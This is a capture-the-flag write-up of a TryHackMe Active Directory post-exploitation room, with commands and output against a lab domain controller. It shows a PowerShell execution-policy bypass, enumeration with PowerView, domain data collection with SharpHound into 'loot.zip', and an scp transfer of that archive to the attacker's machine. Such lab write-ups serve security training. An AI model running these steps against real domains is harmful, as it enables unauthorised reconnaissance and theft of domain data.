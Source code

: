 # Post Exploitable

----------------------------

> https://tryhackme.com/room/postexploit

> IP : 10.10.189.246

--------------------------

**Given Credentials**
```
ssh/Rdp connect

User:Administrator
Pass:P@$$W0rd
Domain:Controller
```

`powershell -ep bypass` 

>ep bypasses the execution policy of powershell allowing you to easily run scripts

```
Controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator>powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> 
```

---------------------------------------------------

**Enumeration w/ Powerview**

> starting powerview tool in powershell

```
PS C:\Users\Administrator\Downloads> ls


    Directory: C:\Users\Administrator\Downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/14/2020  11:39 AM        1261832 mimikatz.exe
-a----        5/14/2020  11:41 AM         374625 PowerView.ps1
-a----        5/14/2020  11:43 AM         973325 SharpHound.ps1


PS C:\Users\Administrator\Downloads> .\PowerView.ps1
```

_Enumerate the domain users_ - `Get-NetUser | select cn`

```
PS C:\Users\Administrator> Get-NetUser | select cn

cn
--
Administrator
Guest
krbtgt
Machine-1
Admin2
Machine-2
SQL Service
POST{P0W3RV13W_FTW}
sshd
```



_Enumerate the domain groups_ - `Get-NetGroup -GroupName *admin*`
```
PS C:\Users\Administrator> Get-NetGroup -GroupName *admin*
Administrators 
Hyper-V Administrators
Storage Replica Administrators
Schema Admins
Enterprise Admins
Domain Admins
Key Admins
Enterprise Key Admins
DnsAdmins
```
> Here's a cheatsheet to help you with commands: 
> https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

**Answering Question from this section**

```
1.What is the shared folder that is not set by default? 

=> share

```
Explaination

> just see the hint : Invoke-ShareFinder

```
PS C:\Users\Administrator> Invoke-ShareFinder
\\Domain-Controller.CONTROLLER.local\ADMIN$     - Remote Admin 
\\Domain-Controller.CONTROLLER.local\C$         - Default share
\\Domain-Controller.CONTROLLER.local\IPC$       - Remote IPC
\\Domain-Controller.CONTROLLER.local\NETLOGON   - Logon server share
\\Domain-Controller.CONTROLLER.local\Share      -
\\Domain-Controller.CONTROLLER.local\SYSVOL     - Logon server share
```
-------------------------------

```
2.What operating system is running inside of the network besides Windows Server 2019?

=> Windows 10 Enterprise Evaluation

```
```
PS C:\Users\Administrator> Get-NetComputer -fulldata | select operatingsystem   

operatingsystem
---------------
Windows Server 2019 Standard
Windows 10 Enterprise Evaluation
Windows 10 Enterprise Evaluation
```
---------------------------------------
```
3.I've hidden a flag inside of the users find it

=> POST{P0W3RV13W_FTW}
```
Explaination 

> Refer to Enumuration part above 

----------------------------------------
_________________________________________

**Enumeration w/ Bloodhound**

BloodHound Installation -
```
1.) apt-get install bloodhound    

2.) neo4j console - default credentials -> neo4j:neo4j
```
Getting loot w/ SharpHound -
```
1.) powershell -ep bypass same as with PowerView

2.) . .\Downloads\SharpHound.ps1    

3.) Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip 
```
```
PS C:\Users\Administrator>  . .\Downloads\SharpHound.ps1
PS C:\Users\Administrator> Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
----------------------------------------------
Initializing SharpHound at 2:48 AM on 2/6/2022
----------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain CONTROLLER.LOCAL using path CN=Schema,CN=Configuration,DC=CONTROLLER,DC=LOCAL
PS C:\Users\Administrator> [+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 104 MB RAM
Status: 66 objects finished (+66 66)/s -- Using 107 MB RAM
Enumeration finished in 00:00:01.2154975
Compressing data to C:\Users\Administrator\20220206024805_loot.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 2:48 AM on 2/6/2022! Happy Graphing!
```
Transfer the loot.zip file to your local machine 

> note: you can use scp to transfer the file if you’re using ssh

		scp Administrator@controller:C:/Users/Administrator/20220206024805_loot.zip .

```
┌──(kali㉿kali)-[~/thm/machine/post-exploitation]
└─$ scp Administrator@controller:C:/Users/Administrator/20220206024805_loot.zip .
Administrator@controller's password: 
20220206024805_loot.zi 100% 9574    55.9KB/s   00:00 
```
